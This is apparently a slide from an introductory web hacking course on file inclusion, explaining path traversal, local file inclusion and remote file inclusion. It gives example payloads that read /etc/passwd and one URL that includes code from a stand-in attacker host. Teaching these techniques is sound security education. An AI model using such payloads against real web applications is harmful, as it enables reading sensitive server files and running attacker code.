

Introduction to Web hacking
6. File inclustion
1.  Path Traversal (directory traversal)
Exploiting web server misconfigurations to access files outside the intended directory.
../../etc/passwd

2. Local File Inclusion (LFI)
 Injecting file paths to include local files from the server's filesystem.
http://webapp.thm/index.php?lang=../../../../etc/passwd

3. Remote File Inclusion (RFI)
Including external files via a URL, potentially allowing code execution.
http://webapp.thm/index.php?lang=http://attacker.thm/code.php